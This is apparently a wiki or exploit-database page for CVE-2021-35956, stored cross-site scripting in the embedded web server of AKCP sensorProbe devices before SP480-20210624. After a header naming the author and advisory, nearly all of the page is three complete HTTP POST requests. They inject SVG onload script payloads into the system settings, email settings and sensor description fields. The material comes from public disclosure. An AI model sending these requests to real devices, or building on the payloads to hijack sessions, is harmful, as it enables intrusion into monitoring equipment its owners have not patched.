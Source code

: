 <languages /> <translate>

影響版本
--------

</translate> Version: \< SP480-20210624

XSS
---

    # Exploit Title: AKCP sensorProbe SPX476 - 'Multiple' Cross-Site Scripting (XSS)
    # Date: 07-01-2021
    # Exploit Author: Tyler Butler
    # Vendor Homepage: https://www.akcp.com/
    # Software Link: https://www.akcp.com/support-center/customer-login/sensorprobe-series-firmware-download/
    # Advisory: https://tbutler.org/2021/06/28/cve-2021-35956
    # Version: < SP480-20210624
    # CVE: CVE-2021-35956

    # Description: Stored cross-site scripting (XSS) in the embedded webserver of AKCP sensorProbe before SP480-20210624 enables remote authenticated attackers to introduce arbitrary JavaScript via the Sensor Description, Email (from/to/cc), System Name, and System Location fields.


    1) Stored Cross-Site Scripting via System Settings

    POST /system?time=32e004c941f912 HTTP/1.1
    Host: [target]
    Content-Length: 114
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://[target]
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://[target]/system?time=32e004c941f912
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Connection: close

    _SA01=System+Namer&_SA02=RDC&_SA03=Name<svg/onload=alert`xss`>&_SA04=1&_SA06=0&_SA36=0&_SA37=0&sbt1=Save

    2) Stored Cross-Site Scripting via Email Settings

    POST /mail?time=32e004c941f912 HTTP/1.1
    Host: [target]
    Content-Length: 162
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://[target]
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://[target]/mail?time=32e004c941f912
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Connection: close


    _PS03=test@test.com&_PS04=test@test.com&_PS05_0=test@test.com&_PS05_1=test@test.comr&_PS05_3=<svg/onload=alert`xxss`>&_PS05_4=&sbt2=Save

    3) Stored Cross-Site Scripting via Sensor Description

    POST /senswatr?index=0&time=32e004c941f912 HTTP/1.1
    Host: [target]
    Content-Length: 55
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://[target]
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://[target]/senswatr?index=0&time=32e004c941f912
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: CPCookie=sensors=400
    Connection: close

    _WT00-IX="><svg/onload=alert`xss`>&_WT03-IX=2&sbt1=Save